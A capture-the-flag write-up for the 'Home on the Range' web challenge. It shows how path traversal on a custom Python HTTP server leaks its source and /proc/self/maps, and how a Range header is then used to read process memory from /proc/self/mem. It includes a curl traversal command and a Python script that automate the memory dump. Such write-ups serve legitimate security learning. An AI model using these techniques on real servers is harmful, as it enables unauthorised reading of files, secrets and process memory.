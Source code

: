 # Web

##  Home on the Range 


### Info

![](screenshots/1.png)


## solution:

this challenge is one of the best challenges i solved in ctfs because it touched a really interesting concept with educational way ....
there is i think 3 steps to solve the challenge:

### First step: Path Traversal:

so the description said that `I wrote a custom HTTP server to play with obscure HTTP headers.` and trying to request the home page , we will notice that the server is a simple python httpserver `Server: BaseHTTP/0.6 Python/3.12.2`
![](screenshots/2.png)

we can see there is a `hello.html` file actually this file doesn't matter but trying to request it will give us an http header called `Accept-Ranges` you can find [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Ranges) more information about it ,because we will need it later!
![](screenshots/3.png)

now we know it's a simple python httpserver and yes it's vulnerable to path traversal from we can try access to the root dir by just go back `GET /../../ HTTP/1.1 Host: guppy.utctf.live:7884`:
![](screenshots/4.png)

and YES we can see the root dir list , ofc we will try to search for the flag.txt thinking it's a simple challenge!
but wait until you open the `server.py` file XD
it's a looong script ! it's a customized http server like the description says with a custom `Range` HEADER
```bash
import os
from html import escape
from mimetypes import guess_type
import re
from random import randbytes
import signal
import sys
import threading

with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")

def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range):
    boundary = randbytes(64).hex()
    for [first, last] in (ranges if ranges != [] else [[None, None]]):
        count = None
        if first is None:
            if last is None:
                first = 0
            else:
                first = file_len - last
                count = last
        elif last is not None:
            count = last - first + 1

        if (count is not None and count < 0) or first < 0:
            return False
            .
            .
            .
```




### Second step: Understand the Code And the Range header:

so we leaked the server code and it's so long but only 3 sections i found importants 
the first lines:
```
with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")
```
the lines that explain how the Range header works in the function `def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range)` 

the last lines:

```
server.serve_forever()
with open("/setup/flag.txt", "w") as f:
    f.write(the_flag)
```
1-just from this thre sections we know there were a file named flag.txt , we read its content to a variable named `the_flag` and we removed it !

2-also we can understand how `Range` work and briefly it's like can split the downloaded data to bytes ranges
with the format Range: bytes=[start-end],[start,end],...... and get  a response for each region 

3-we can clearly say that the flag won't be written in the file again unless the server is down!because of this`server.serve_forever()`

### Third step: The exploit:

After reading the code actually i thought we have to crush the server somehow then perform a Race Condition
to read the /setup/flag.txt before the script delete it but the author of the challenge said:
```
What approaches are invalid?
Trying to crash/shutdown/SIGTERM the server
Performance or race conditions
Brute force / dirbuster
Exploits of the Python interpreter
```

So me And my teammate [0utC4s7](https://cybersecfun.pythonanywhere.com/index.html) searhed a lot about how we can get the file again ! But Wait it's impossible ...... After a while we thought that `the_flag` variable it's not setted for nothing , Here we start searching About how we can Read a variable content in a running proces ! we start by reading the `proc/self/cmdline` to identify the  runnin process and indeed it's `server.py`

![](screenshots/5.png)

then we found out the file `proc/self/maps` that contains memory map information for the process, providing details of the virtual memory address space and their permissions :

![](screenshots/6.png)

And here we Got the idea of reading the Memory to find `the_flag` variable and we have : `/proc/self/mem` our champion because it provides direct access to the memory of a the process , but we didn't celebrate for long time:

![](screenshots/7.png)

Error code explanation: 500 - I/O error ! we tried to read the file in our local machines :

```bash
┌──(mo㉿ElMo)-[~]
└─$ cat /proc/self/mem   
cat: /proc/self/mem: Input/output error
```
same thing ..... there is something wrong here , But Waaait here u can start to link the ideas 

1-we have a file `maps` contain memory map infos with region of the VM with permessions And not all regions are readable ?!!

2-we have `mem` file that contain the content of the memory , BUT `we cant read it simply because we dont have permission to read all regions` 

3- we have `Range` header that can read specific range of bytes 

HERE the brilliant Idea , we can read region by region  in the `mem` file the using `Range Header` and getting the starting and ending addresses of each region  from the `maps` file.
if u didnt understand well what the files do read [here](https://medium.com/@razika28/inside-proc-a-journey-through-linuxs-process-file-system-5362f2414740)

so we can read the mem liks this:(`NB: we have pass the start - end of region to the Range header as decimal`)

![](screenshots/8.png)

let's go ... it worked we can now read the memory , so we keap reading the region that we have permission for 
and we get the flag by searching for the flag format:

![](screenshots/9.png)

we can automate the process 
```bash
curl 'http://guppy.utctf.live:7884/../../proc/self/maps' --path-as-is -s -H 'Range: bytes=0-22770' > memory_ranges.txt 
```
```python
import requests

def hex_to_decimal(hex_str):
    return int(hex_str, 16)

def read_memory_ranges(file_path):
    memory_ranges = []
    with open(file_path, 'r') as file:
        for line in file:
            if line.strip():
                parts = line.split()
                start_hex = parts[0].split('-')[0]
                end_hex = parts[0].split('-')[1]
                start_decimal = hex_to_decimal(start_hex)
                end_decimal = hex_to_decimal(end_hex)
                memory_ranges.append((start_decimal, end_decimal))
    return memory_ranges

def send_requests(memory_ranges):
    for start, end in memory_ranges:
        url = "http://guppy.utctf.live:7884/../../proc/self/mem"
        headers = {'Range': 'bytes={}-{}'}
        headers['Range'] = headers['Range'].format(start, end)
        response = requests.get(url, headers=headers)
        print(f"\nResponse for Range {start}-{end}: {response.status_code}")
        if "utflag" in response.text:
            print("\nFLAG FOUND!!!")
            print(response.text)
            exit()

def main():
    file_path = "./memory_ranges.txt" 
    memory_ranges = read_memory_ranges(file_path)
    send_requests(memory_ranges)

if __name__ == "__main__":
    main()
```



